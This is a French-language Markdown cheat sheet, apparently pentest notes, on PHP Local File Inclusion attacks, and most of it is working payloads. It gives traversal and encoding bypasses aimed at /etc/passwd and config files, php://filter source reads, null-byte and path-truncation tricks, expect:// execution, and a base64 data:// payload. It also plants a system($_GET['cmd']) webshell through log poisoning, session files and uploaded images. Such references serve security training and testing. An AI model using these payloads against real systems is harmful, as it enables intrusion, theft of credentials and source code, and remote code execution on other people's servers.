

Ce document détaille les techniques de contournement pour les vulnérabilités de type **Local File Inclusion (LFI)**, souvent rencontrées lors de la phase d'exploitation d'applications web.



> [!warning] Attention aux versions de PHP
> Les techniques de **Null byte** et de **Path Truncation** sont obsolètes depuis PHP 5.3/5.5. Leur efficacité dépend strictement de la version de l'environnement cible.

> [!warning] Risque de crash serveur
> L'utilisation de payloads de 4096 caractères peut entraîner une instabilité ou un crash du service web selon la configuration mémoire.

> [!info] Importance de l'encodage
> L'encodage URL est crucial pour contourner les mécanismes de sécurité. Une mauvaise interprétation des caractères spéciaux par le serveur peut permettre de passer outre les filtres.

> [!note] Différence entre lecture et exécution
> La lecture de fichiers (ex: `/etc/passwd`) diffère de l'exécution de code (**RCE**). L'exploitation réussie dépend de la capacité à injecter du code dans un fichier interprété par le serveur.

## Contournement de filtre non récursif

Lorsqu'un filtre supprime les séquences `../` sans récursivité, il est possible de reconstruire le chemin après le passage du filtre.

```php
$language = str_replace("../", "", $_GET["language"]);
```

Payloads de contournement :

```text
....//etc/passwd
..././etc/passwd
..%252f..%252fetc/passwd
```

## Encodage

L'encodage permet d'échapper aux listes noires (blacklists) et aux systèmes de détection.

Payload original :
```text
../../etc/passwd
```

Encodage standard :
```text
%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

Double encodage :
```text
%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

Utilisation de **python** pour générer l'encodage :
```bash
python -c 'import urllib.parse; print(urllib.parse.quote("../"))'
```

## Bypass sur chemins validés (regex)

Certaines applications imposent une structure de chemin via des expressions régulières.

```php
if (preg_match('/^\.\/languages\/.+$/', $_GET['lang'])) {
    include($_GET['lang']);
}
```

Payload pour satisfaire la regex tout en effectuant un **Path Traversal** :

```text
./languages/../../../../etc/passwd
```

## Extensions ajoutées automatiquement

Lorsqu'une application ajoute une extension (ex: `.php`) au fichier demandé, l'accès à des fichiers système est bloqué.

Utilisation de **php://filter** pour lire le contenu source :

```text
php://filter/convert.base64-encode/resource=config.php
```

## Path Truncation

Cette technique exploite la limite de 4096 caractères des chemins de fichiers dans les anciennes versions de **PHP** (≤ 5.3) pour tronquer l'extension ajoutée.

Génération d'un payload de 4096 caractères :

```bash
echo -n "x/../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

## Injection de null byte

Dans les versions de **PHP** antérieures à 5.5, le caractère `%00` met fin à la chaîne de caractères, ignorant ainsi l'extension ajoutée par le script.

Payload :

```text
/etc/passwd%00
```

## RCE via Log Poisoning

Si l'application permet d'inclure des fichiers de logs (ex: `/var/log/apache2/access.log`), il est possible d'injecter du code PHP dans les logs via l'User-Agent ou des paramètres de requête.

1. Injecter le payload dans le log :
```bash
curl -H "User-Agent: <?php system($_GET['cmd']); ?>" http://target.com/index.php
```
2. Inclure le fichier de log via LFI :
```text
http://target.com/index.php?page=/var/log/apache2/access.log&cmd=id
```

## RCE via Session Files

Si l'application utilise des sessions PHP, les données sont stockées dans des fichiers (souvent `/var/lib/php/sessions/sess_<PHPSESSID>`). Si l'on peut contrôler une valeur stockée en session, on peut y injecter du code.

1. Définir une variable de session malveillante :
```php
<?php session_start(); $_SESSION['test'] = '<?php system($_GET["cmd"]); ?>'; ?>
```
2. Inclure le fichier de session :
```text
http://target.com/index.php?page=/var/lib/php/sessions/sess_v7n8...&cmd=id
```

## RCE via Uploads

Si une fonctionnalité d'upload existe, on peut uploader un fichier image contenant du code PHP (ex: `shell.jpg` avec `<?php system($_GET['cmd']); ?>`) et l'inclure via LFI.

```text
http://target.com/index.php?page=./uploads/shell.jpg&cmd=id
```

## Filter bypass via protocol wrappers (expect://)

Le wrapper `expect://` permet l'exécution directe de commandes système. Il nécessite l'extension `expect` activée sur le serveur.

Payload :
```text
expect://id
```

## Configuration serveur (php.ini settings)

La configuration de `php.ini` détermine la faisabilité des attaques LFI.

| Directive | Impact |
| :--- | :--- |
| `allow_url_fopen = On` | Autorise l'inclusion de fichiers distants (RFI) |
| `allow_url_include = On` | Autorise l'inclusion de wrappers (data://, php://) |
| `disable_functions` | Liste les fonctions interdites (ex: `system`, `exec`) |

> [!tip] Vérification
> Toujours vérifier la valeur de `allow_url_include` via `phpinfo()` ou une lecture de fichier de configuration pour valider l'usage des wrappers.

## Wrappers PHP

Les wrappers permettent d'interagir avec différents flux de données.

| Wrapper | Usage |
| :--- | :--- |
| `php://filter/convert.base64-encode/resource=` | Lecture de fichiers PHP en base64 |
| `data://text/plain;base64,` | Injection de code (si LFI permet l'exécution) |

Exemple d'injection **RCE** via `data://` :

```text
data://text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==
```

Ces techniques sont complémentaires aux méthodes de **File Inclusion** et s'inscrivent dans une démarche globale de **Web Application Attacks**. La maîtrise de ces vecteurs nécessite une bonne compréhension de la configuration serveur et des mécanismes de **Linux Enumeration**.